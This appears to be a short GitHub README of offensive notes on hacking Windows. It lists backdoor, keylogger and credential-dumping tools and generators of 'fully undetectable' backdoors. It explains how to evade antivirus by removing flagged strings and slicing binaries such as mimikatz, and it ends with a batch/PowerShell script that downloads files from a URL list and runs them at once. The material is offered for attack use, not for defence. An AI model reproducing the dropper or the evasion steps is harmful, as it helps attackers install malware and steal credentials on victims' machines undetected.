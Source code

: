 # Let's _hack windows_ systems by various techniques & tools!

#### Windows evil files:
- Backdoor (eg: Quasur RAT, metasploit)
- Keylogger (eg: zLogger)
- Password recovery tool (eg: LaZagne, mimikatz)

#### Tools to generate Fully Undetectable backdoors (FUD):
- Veil
- TheFatRat
- Empire

#### How anti-virus programmes detects viruses.
Anti-viruses flag files as malicious by looking at its **signatures, string & behaviour**.
If file contains the string or words already highlighted as malicious or it behaves suspiciously like using uncommon port, 
sending data to remote server accessing data which it is not intended to have.

#### How to make backdoor undetectable if it is still detectable by few anti-viruses?
- Remove all malicious strings from the file. for eg.: _mimikatz_
- For signature based AV bypassing edit the file from every aspect by editing, removing or even by adding thing to the file, so that it outputs different signature.
- Find out which part of file is being flagged by AV.
  - Slice the binary in various sizes. For eg.: **File Name**: mimikatz.exe **File Size**: 1200050 byts
    - Let's slice it into first half: `head -c 600025 mimikatz.exe > firsthalfmimikatz.exe`
      - After finding, edit in hex editor or remove it after decompiling the source code from the main file.

### POST ABOVE
- Kon boot
- oph crack

#### Windows file downloader scripts:
### Bat scripts:
```
@echo off

set files='url1','url2','url3'

powershell "(%files%)|foreach{$fileName='%TEMP%'+(Split-Path -Path $_ -Leaf);(new-object System.Net.WebClient).DownloadFile($_,$fileName);Invoke-Item $fileName;}"
```

## References:
[Anti-virus evastion - Mimikatz by _ippsec_](https://www.youtube.com/watch?v=9pwMCHlNma4&t=1118s)<br>
[Create FUD backdoors by _zSecurity_](https://www.youtube.com/watch?v=cgM-_42rWbM)







